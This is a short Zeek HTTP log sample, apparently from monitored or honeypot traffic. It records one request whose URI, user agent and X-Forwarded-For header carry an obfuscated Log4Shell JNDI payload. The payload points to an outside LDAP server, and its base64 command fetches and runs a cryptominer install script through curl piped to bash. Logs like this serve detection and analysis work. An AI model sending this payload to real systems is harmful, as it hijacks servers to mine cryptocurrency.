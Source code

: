 Here is a sample of the first `50` lines:

````log
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2023-12-03-13-38-52
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types	cookie_vars	uri_vars
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
1701623051.199266	ClAc5H30D12h4Tgugh	95.214.53.103	37420	172.31.5.68	8000	1	GET	54.67.87.80:8000	/	t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//174.138.82.190:1389/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')	1.1	t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//174.138.82.190:1389/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')	-	0	9226	200	OK	-	-	(empty)	-	-	X-FORWARDED-FOR -> t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//174.138.82.190:1389/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')	-	-	-	FqBHVE4tItYPO1rg42	-	text/html	t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//174.138.82.190:1389/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')	/
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2024-02-02-13-38-48
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types	cookie_vars	uri_vars
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
````
